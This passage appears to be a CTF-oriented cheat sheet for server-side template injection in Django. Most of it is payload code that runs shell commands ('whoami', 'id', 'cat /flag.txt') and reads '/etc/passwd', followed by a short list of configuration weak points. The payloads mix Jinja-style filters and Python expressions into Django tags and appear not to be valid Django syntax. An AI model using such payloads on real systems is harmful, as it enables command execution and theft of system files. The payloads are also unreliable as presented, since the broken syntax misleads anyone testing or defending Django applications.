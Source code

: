 ```
{{ ''.__class__.__mro__[1].__subclasses__() }}
```

Find a usable class like `subprocess.Popen` or `os._wrap_close`:

```
{% with a=request|attr:"__class__"|attr:"__mro__"|last|attr:"__subclasses__" %}
  {% with b=a()|attr:"pop"|func(177) %}
    {{ b("whoami")}}
  {% endwith %}
{% endwith %}
```

### Bypassing **builtins** Access

```
{% with a=''.__class__.__mro__[1].__subclasses__() %}
  {% with b=a|first|attr:"__subclasses__"|func %}
    {% with c=b|first|attr:"__init__"|attr:"__globals__"|attr:"__getitem__"|func:"builtins" %}
      {{ c|attr:"eval"|func:"__import__('os').popen('id').read()" }}
    {% endwith %}
  {% endwith %}
{% endwith %}
```

## CTF-Specific Exploits

One popular payload pattern for CTF challenges:

```
{% with a=request|attr:"application"|attr:"__globals__"|attr:"__getitem__"|func:"__builtins__" %}
  {{ a|attr:"__getitem__"|func:"__import__"|func:"os"|attr:"popen"|func:"cat /flag.txt"|attr:"read"|func }}
{% endwith %}
```

For file reading:

```
{% with a=request|attr:"application"|attr:"__globals__"|attr:"__getitem__"|func:"__builtins__" %}
  {% with b=a|attr:"__getitem__"|func:"open"|func:"/etc/passwd" %}
    {{ b|attr:"read"|func }}
  {% endwith %}
{% endwith %}
```

## Security Controls to Look For

1. `django.template.backends.django.DjangoTemplates` with `'APP_DIRS': True`
2. Custom template contexts or processors
3. `render()` or `render_to_string()` with user-controlled template names
4. Custom template tags that might expand capabilities
5. Debug mode enabled (`settings.DEBUG = True`)

Remember that Django's template engine is designed with security in mind and has more restrictions than other template engines like Jinja2, but these techniques might help you find and exploit vulnerabilities in a CTF context.